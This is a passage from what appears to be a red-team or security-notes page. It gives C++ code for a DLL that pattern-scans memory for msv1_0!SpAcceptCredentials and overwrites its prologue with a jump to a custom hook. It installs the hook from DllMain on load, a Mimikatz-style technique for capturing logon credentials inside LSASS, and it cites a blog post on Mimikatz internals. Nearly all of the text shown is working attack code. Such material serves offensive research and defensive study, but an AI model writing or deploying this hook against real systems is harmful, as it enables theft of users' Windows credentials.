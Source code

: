 ```cpp
    patternStartAddressOfSpAccecptedCredentials = (LPVOID)(DWORD_PTR)GetPatternMemoryAddress((char *)targetModule, startOfPatternSpAccecptedCredentials, sizeof(startOfPatternSpAccecptedCredentials), sizeOfImage);
    addressOfSpAcceptCredentials = (LPVOID)((DWORD_PTR)patternStartAddressOfSpAccecptedCredentials - 16);

    // store first sizeof(bytesToRestoreSpAccecptedCredentials) bytes of the original msv1_0!SpAcceptCredentials routine
    std::memcpy(bytesToRestoreSpAccecptedCredentials, addressOfSpAcceptCredentials, sizeof(bytesToRestoreSpAccecptedCredentials));

    // hook msv1_0!SpAcceptCredentials with "mov rax, hookedSpAccecptedCredentials; jmp rax";
    DWORD_PTR addressBytesOfhookedSpAccecptedCredentials = (DWORD_PTR)&hookedSpAccecptedCredentials;
    std::memcpy(bytesToPatchSpAccecptedCredentials + 2, &addressBytesOfhookedSpAccecptedCredentials, sizeof(&addressBytesOfhookedSpAccecptedCredentials));
    std::memcpy(bytesToPatchSpAccecptedCredentials + 2 + sizeof(&addressBytesOfhookedSpAccecptedCredentials), (PVOID)&"\xff\xe0", 2);
    WriteProcessMemory(GetCurrentProcess(), addressOfSpAcceptCredentials, bytesToPatchSpAccecptedCredentials, sizeof(bytesToPatchSpAccecptedCredentials), (SIZE_T*)&bytesWritten);
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
        case DLL_PROCESS_ATTACH:
        {
            installSpAccecptedCredentialsHook();
        }
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```
{% endcode %}

## References

{% embed url="https://blog.xpnsec.com/exploring-mimikatz-part-2/" caption="" %}

